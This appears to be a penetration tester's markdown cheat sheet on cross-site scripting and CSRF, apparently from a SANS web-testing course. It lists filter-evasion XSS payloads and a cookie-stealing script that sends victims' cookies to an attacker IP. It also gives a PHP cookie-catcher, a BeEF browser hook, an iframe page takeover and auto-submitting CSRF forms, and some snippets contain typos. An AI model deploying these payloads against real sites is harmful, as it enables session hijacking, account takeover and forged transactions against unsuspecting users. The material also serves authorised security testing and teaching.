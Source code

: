 ```yaml
---
title: XSS, Javascript, and CSRF
category: Web Application
order: 5
---
```


> **XSS Reflection Testing**

**Using Burp - Step 1:** 
1. Intruder-> Battering Ram (include user-agent, referer, cookie values)
2. Payoad -> Use a magic string: 9vqkz (any random string)
3. Options -> Search responses for payload strings -> magic string
4. Sort on p grep, if found change attack type to sniper.

**Using Burp - Step 2 Filter Test:**
1. Repeat above with sniper and the following payloads (simple list):
* <code> &lt;&gt;[]{}()$--'#&#34;&amp;;/ </code>
* <code> '';!--&#34;&lt;XSS&gt;=&amp;{()}</code>
* <code> &lt;x&gt;'&#34;()= </code>
* <code> ;[]{}'"() </code>
* <code> jAvaSCript:prompt(9vqkz) </code>
* <code> &lt;script&gt;alert(42);&lt;/script&gt; </code>

**Additional Payloads:**
* Fuzzdb /attack-payloads/xss
* JBroFuzz (built into ZAP)
* Burp (Pro provides expanded payloads)
* ZAP (JBroFUzz and some fuzzdb)
* XSSer (includes some that the others don't have)

**Additional XSS Test Strings**
{% highlight html %}
<script>alert(document.cookie);</script>
<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>
<script src=http://www.example.com/malicious-code.js></script>
%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e
\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e
>"><script>alert("XSS")</script>&
"><STYLE>@import"javascript:alert('XSS')";</STYLE>

//Unicode Filter Bypass
＜script src=https://tiny.cc/numbers＞＜/script＞

//Only works for IE6 and earlier
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')> 
<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>
<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">
{% endhighlight %}

**Tools:**
* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)

**Resources:**
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

> **Javascript Events for XSS**

onload | change content after it loads
onunload | launch pop-under window to retain control of a zombie browser
onsubmit | change form values os the transaction is one of the attacker's choosing
onfocus | send http request to the attacker's web server to reveal which controls the user is selecting

> **XSS Exploitation**

**SSL/TLS Enable Sites and External Scripts**
* Note that exteral scripts on SSL/TLS enabled sites requires the script to be hosted on an SSL enabled site
* Example would be github and https://rawgit.com/path/to/script.js
* Shorten with tinyurl or alternatives

**Exploitation Options**
* Redirect to competitor (or other equivantly bad site) 
	* <code> window.location.href = "http://www.sec542.org" ; </code>
* Have form submit to you:
	* <code> document.forms[1].action="http://www.sec542.org" </code>
* Add Competitor logo
* Negative fake information (or other content modification)
* Read cookies
* Fake Login Site 

**Basic Stealing Cookie:**
{% highlight html %}
<!-- Attacker -->
python -m SimpleHTTPServer 

<!-- Victim -->
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

**POST:**
*Needs CSRF Vulnerability to work*
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

**XSS Cookie Catcher**
{% highlight php %}

#Attacker
<?php
$cookies = $_SERVER['REQUEST_URI'];
$output = "Received=".$cookies."\n";
$fh = fopen("/tmp/cookiedump", "a+");
$contents = fwrite($fh, $output);
fclose($fh);
echo "FOO!";
?>

#Victim
http://www.sec542.org/PhpMyAdmin/index.php?lang=<script>var lo=document.location;document.location='//[AttackerIP]/cookiecatcher.php?'%2bdocument.cookie;var la = new Array();la = lo.toString().split('?');document.location=la[0];</script>
"
{% endhighlight %}

**Take Over a Page**
{% highlight html %}
<style type="text/css"> <! -- .style11 {position:fixed; top:0px; left:0px; bottom:0px; right:opx; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;} //-->
</style>

<iframe class="style11" src="http://127.127.127.127/www.sans.org/account/" frameborder="0" scrolling="no" />
{% endhighlight %}

**BEEF**
{% highlight html %}
<script src=http://beefserver:3000/hook.js></script>
<!-- Most important is the browser exploitation - Metasploit attack payloads -->
{% endhighlight %}


>**XML Get HTTP Request**

{% highlight javascript %}
//Create the oject
xmlhttp = new XMLHttpRequest();
//Sets which function should be called when the ready state changes (AJAXProcess is a custom function)
xmlhttp.onreadystatechange = function () { if (xhr.readyState ==4 && xhr.status ==200) { document.getElementByID("answer").innerHTML = xhr.responseText;}}
//set up the request
xmlhttp.open("GET", "http://www.url.org/index.php");
//Send the request
xmlhttp.send();
//The property that contains the current ready state
xmlhttp.readyState
//THe property that contains the contents of any response from the server
xmlhttp.responseText
{% endhighlight %}

>**XML Post HTTP Request**

{% highlight javascript %}
//Create the oject
xmlhttp = new XMLHttpRequest();
//Alerts the response
xmlhttp.onreadystatechange = function () {if (xmlhttp.readyStat == XMLHttpRequest.DONE) { alert(xmlhttp.responseText); }
//set up the request
xmlhttp.open("POST", "http://www.url.org/index.php");
//set up the content type
xmlhttp.setRequestHeader("Content-type", "applicaiton/x-ww-form-urlencoded");
//Send the request
xmlhttp.send("param1=value1&param2=value2&param3=value3");
//The property that contains the current ready state
xmlhttp.readyState
//THe property that contains the contents of any response from the server
xmlhttp.responseText
{% endhighlight %}

>**Exploiting JSON**

Look for:
1. Too much data provided from server and being filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
2. Error messages provided from server but filtered on the client
	* Use burp/zap to look at JSON data sent for extra data or error messages
3. Injection (JSON to the server, or JSON in the response, eval)
	* Intercept the JSON and insert attack strings (XSS, SQL), be careful with XSS because it is in a JSON object that is going to be parsed and break out of it appropriately.

>**XSS JSON**

If data is reflected from input into JSON Object (9vqkz is test string):
{% highlight javascript %}
{"query": {"toolIDRequested": "9vqkz", "penTestTools": []}}

Example escape using concatinate:
Prefix: 1"+
Paylod: eval(alert(1))
Suffix:+1

prefix: 1"%2b
Payload: eval(alert(1))
Suffix: %2b"1

prefix: 4"}}); 
payload: alert(1);
suffix:   //
{% endhighlight %}

> **CSRF**

Look for:
1. No CSRF Token
2. Actions that perform a sensitive or important action
	* Network Devices to allow bad guys to come in
3. Transaction that contains predictable parameters

> **CSRF Exploits**

With ZAP:
1. Right Click on the request in the history
2. Generate Anti CSRF Test From
3. In a logged in session test form

*Burp also has one in the pro version*

{% highlight html %}
GET:
Image tag 
<img src="https://a.tld/t.php?acct=12345&amt=1000">

IFRAME
<iframe src="https;//a.tld/t.php?acct=12345&amt1000">
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>

CSS or Javascript import 

XMLHTTPRequest
{% endhighlight %}

{% highlight html %}
<html>
<body onload="f1.submit()";>
<h3>http://www.sec542.org/sec542_oldforum/posting.php</h3><form id="f1" method="POST" action="http://www.sec542.org/sec542_oldforum/posting.php">
<table>
<tr><td>
post<td><input name="post" value="Submit" size="100"></tr>
<tr><td>
message<td><input name="message" value="test :D " size="100"></tr>
</table>
</form>
<button onclick="document.getElementById('f1').submit()">Submit</button>
</body>
</html>
{% endhighlight %}

> **Useful Resources**

* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors) 
* [XSS Examples](http://www.xssed.com/)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)


> **Useful Tools**

* XSSer 
* xssniper
* XSScrapy (xsssniper -u "http://sec542.com" --crawl --forms -http-proxy 127.0.0.1:8082)


